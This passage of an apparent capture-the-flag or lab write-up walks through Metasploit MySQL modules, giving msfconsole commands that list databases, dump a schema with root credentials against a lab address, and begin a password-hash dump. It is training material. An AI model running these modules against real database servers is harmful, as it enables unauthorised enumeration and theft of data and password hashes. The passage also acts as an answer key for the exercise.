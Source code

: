 ### **How many databases are returned?**

```
msf > set SQL show databases
msf > exploit
```

![](<../../.gitbook/assets/Screenshot from 2020-09-16 18-55-35.png>)

### **Search for and select the "mysql\_schemadump" module. What's the module's full name?**

```
msf > search mysql_schemadump
```

![](<../../.gitbook/assets/Screenshot from 2020-09-16 18-59-32.png>)

### **What's the name of the last table that gets dumped?**

```
msf > use 0
msf > set PASSWORD password
msf > set RHOSTS 10.10.16.169
msf > set USERNAME root
msf > exploit
```

![](<../../.gitbook/assets/Screenshot from 2020-09-16 19-01-21.png>)

### **Search for and select the "mysql\_hashdump" module. What's the module's full name?**
